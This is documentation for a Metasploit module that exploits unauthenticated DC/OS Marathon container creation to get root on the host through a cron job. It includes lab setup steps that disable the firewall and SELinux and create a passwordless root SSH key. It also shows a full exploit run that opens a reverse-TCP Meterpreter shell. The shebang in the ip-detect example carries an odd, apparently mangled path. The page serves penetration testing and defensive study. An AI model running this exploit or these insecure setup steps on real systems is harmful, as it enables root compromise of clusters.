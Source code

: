 ## Vulnerable Application
Utilizing the DCOS Cluster's Marathon UI, an attacker can create
a docker container with the '/' path mounted with read/write
permissions on the host server that is running the docker container.
As the docker container executes command as uid 0 it is honored
by the host operating system allowing the attacker to edit/create
files owed by root. This exploit abuses this to creates a cron job
in the '/etc/cron.d/' path of the host server.

*Notes: The docker image must be a valid docker image from
hub.docker.com. Further more the docker container will only
deploy if there are resources available in the DC/OS

## DCOS
This Exploit was tested with CentOS 7 as the host operating system for
the 2 services of the DCOS cluster. With DCOS version 1.7 and 1.8, with
Default 'custom' installation for on site premise setup. Only the Install
part of the DCOS guide was completed, the system hardening and securing
your cluster section where skipped. This is to represent a 'Default' install
with a system admin conducting hasty deployments taking no thought about security.


## To Setup Your Cluster
I recommend doing a 'on-premise'/custom
cluster. https://dcos.io/docs/1.8/administration/installing/custom/
Create a virtual CentOS machine, install requirements base on the above
guide.

```bash
# The TLDR from the above guide
sudo systemctl stop firewalld && sudo systemctl disable firewalld
sudo yum install -y tar xz unzip curl ipset ntp
sudo systemctl start ntpd
sudo systemctl enable ntpd
sudo sed -i s/SELINUX=enforcing/SELINUX=permissive/g /etc/selinux/config && \
   sudo groupadd nogroup && sudo reboot
```

Install a supported version of docker on the CentOS systems
https://dcos.io/docs/1.8/administration/installing/custom/system-requirements/install-docker-centos/

```bash
# The TLDR of the above guide
sudo yum -y remove docker docker-common container-selinux
sudo yum -y remove docker-selinux
sudo yum install -y yum-utils
sudo yum-config-manager \
   --add-repo \
   https://docs.docker.com/engine/installation/linux/repo_files/centos/docker.repo
sudo yum-config-manager --enable docker-testing
sudo yum makecache fast
sudo yum -y install docker-engine-1.11.2
sudo systemctl start docker
sudo systemctl enable docker
sudo echo overlay > /etc/modules-load.d/overlay.conf
sudo reboot
```

Once the CentOS machine has rebooted, edit the systemctl
service file for docker and change the ExecStart- line to
`ExecStart=/usr/bin/docker daemon --storage-driver=overlay -H fd://`
restart the docker service and verify it is running.
lastly generate ssh rsa keys for authentication. And update the
/etc/ssh/sshd_config file to support root login.

```bash
ssh-keygen -t rsa -b 4096
# Press enter until complete, DO NOT PUT A PASSWORD.
cp ~/.ssh/id_rsa.pub ~/.ssh/authorized_keys
cat ~/.ssh/id_rsa # save the output you will need it for later
rm ~/.ssh/id_rsa # before doing this make sure you have saved a copy for later
```

Shut down the CentOS vm, take a snapshot. (This will be your base)
clone the VM 2 times. One will be DCOS-Master, the Other DCOS-Agent.
Start the DCOS-Master and DCOS-Agent virtual machines You just cloned.
Login and get their current IP address.
* Note: I recommend giving them static IPs if you have further use for the cluster.

From here use another Linux machine with docker installed to finish
the installation process. I used an Ubuntu machine with docker installed.

Follow the custom CLI guide for creating the required files in
the genconf folder.
https://dcos.io/docs/1.8/administration/installing/custom/cli/

Example genconf/config.yaml
```
---
agent_list:
- 192.168.0.10
bootstrap_url: file:///opt/dcos_install_tmp
cluster_name: DCOS
exhibitor_storage_backend: static
ip_detect_filename: /genconf/ip-detect
master_discovery: static
master_list:
- 192.168.0.9
process_timeout: 10000
resolvers:
- 8.8.8.8
- 8.8.4.4
ssh_port: 22
ssh_user: root
```
Example genconf/ip-detect
```bash
#!/data/data/hilled.pwnterm/files/usr/bin/env bash
set -o nounset -o errexit
export PATH=/usr/sbin:/usr/bin:$PATH
ip=$(ip addr show ens33)
echo $( echo $ip | grep -Eo '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}' | head -1)
```

place your id_rsa ssh key into the genconf file and rename the
file to ssh_key and `chmod 0600 genconf/ssh_key`

Deploying the cluster
in the folder containing the genconf folder do the following.
NOTE: if following the cli install from DCOS itself, it will fail
if you do --install-prereqs. It will install an unsupported version of
docker.

```bash
curl -O https://downloads.dcos.io/dcos/stable/dcos_generate_config.sh
chmod +x dcos_generate_config.sh
sudo ./dcos_generate_config.sh --genconf
sudo ./dcos_generate_config.sh --preflight
# If all preflight checks pass
sudo ./dcos_generate_config.sh --deploy
# get a cup of coffie
# wait a minute or two after deploy completes
sudo bash dcos_generate_config.sh --postflight
```

If all is passing navigate to http://[master_ip]:8080/
You should see the Marathon UI web application.

# Exploitation
This module is designed for the attacker to leverage, creation of a
docker container with out authentication through the DCOS Marathon UI
to gain root access to the hosting server of the docker container
in the DCOS cluster.

## Options
- DOCKERIMAGE is the hub.docker.com docker container image you are wanting to have the DCOS Cluster to deploy for this exploit.
- TARGETURI this is the path to make the Marathon UI web request to. By default this is /v2/apps
- WAIT_TIMEOUT is how long you will wait for a docker container to deploy before bailing out if it does not start.
- CONTAINER_ID is optional if you want to have your container docker have a human readable name else it will be randomly generated

## Steps to exploit with module
- [ ] Start msfconsole
- [ ] use exploit/linux/http/dcos_marathon
- [ ] Set the options appropriately and set VERBOSE to true
- [ ] Verify it creates a docker container and it successfully runs
- [ ] After a minute a session should be opened from the agent server

## Scenarios
```
msf > use exploit/linux/http/dcos_marathon
msf exploit(dcos_marathon) > set RHOST 192.168.0.9
RHOST => 192.168.0.9
msf exploit(dcos_marathon) > set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
msf exploit(dcos_marathon) > set LHOST 192.168.0.100
LHOST => 192.168.0.100
msf exploit(dcos_marathon) > set verbose true
verbose => true
msf exploit(dcos_marathon) > check
[*] 192.168.0.9:8080 The target appears to be vulnerable.
msf exploit(dcos_marathon) > exploit

[*] Started reverse TCP handler on 192.168.0.100:4444
[*] Setting container json request variables
[*] Creating the docker container command
[*] The docker container is created, waiting for it to deploy
[*] Waiting up to 60 seconds for docker container to start
[*] The docker container is running, removing it
[*] Waiting for the cron job to run, can take up to 60 seconds
[*] Sending stage (39690 bytes) to 192.168.0.10
[*] Meterpreter session 1 opened (192.168.0.100:4444 -> 192.168.0.10:54468) at 2017-03-01 14:22:02 -0500
[+] Deleted /etc/cron.d/FOWkTeZL
[+] Deleted /tmp/TIWpOfUR

meterpreter > sysinfo
Computer        : localhost.localdomain
OS              : Linux 3.10.0-327.36.3.el7.x86_64 #1 SMP Mon Oct 24 16:09:20 UTC 2016
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter >
```
